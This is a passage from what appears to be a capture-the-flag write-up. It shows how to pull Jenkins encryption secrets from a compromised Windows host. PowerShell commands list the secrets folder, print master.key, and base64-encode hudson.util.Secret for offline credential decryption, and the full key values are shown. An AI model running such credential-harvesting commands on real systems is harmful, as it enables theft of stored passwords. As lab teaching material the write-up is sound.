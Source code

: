 Both require the `config.xml`, as well as `master.key` and
`hudson.util.Secret`, but from `/secrets/`:

    
    
    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\secrets 
    
        Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets
    
    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    d-----       10/20/2021  10:08 PM                filepath-filters.d                                                    
    d-----       10/20/2021  10:08 PM                whitelisted-callables.d                                               
    -a----       10/20/2021  10:26 PM            272 hudson.console.AnnotatedLargeText.consoleAnnotator                    
    -a----       10/20/2021  10:26 PM             32 hudson.model.Job.serverCookie                                         
    -a----       10/20/2021  10:15 PM            272 hudson.util.Secret                                                    
    -a----       10/20/2021  10:08 PM             32 jenkins.model.Jenkins.crumbSalt                                       
    -a----       10/20/2021  10:08 PM            256 master.key                                                            
    -a----       10/20/2021  10:08 PM            272 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY     
    -a----       10/20/2021  10:21 PM              5 slave-to-master-security-kill-switch  
    

`master.key` looks like it’s stored in hex:

    
    
    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c cat ..\..\secrets\master.key 
    f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
    

I can verify I got the full thing by making sure it’s the same length, 256
bytes:

    
    
    oxdf@hacky$ wc -c master.key 
    256 master.key
    

`hudson.util.Secret` looks like a binary file:

![image-20220228165017916](https://0xdfimages.gitlab.io/img/image-20220228165017916.png)

I’ll use PowerShell to base64 [encode it](https://docs.microsoft.com/en-
us/previous-versions/troubleshoot/winautomation/process-development-tips/text-
manipulation/convert-file-to-base64-string-format):

    
    
    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
    gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
    
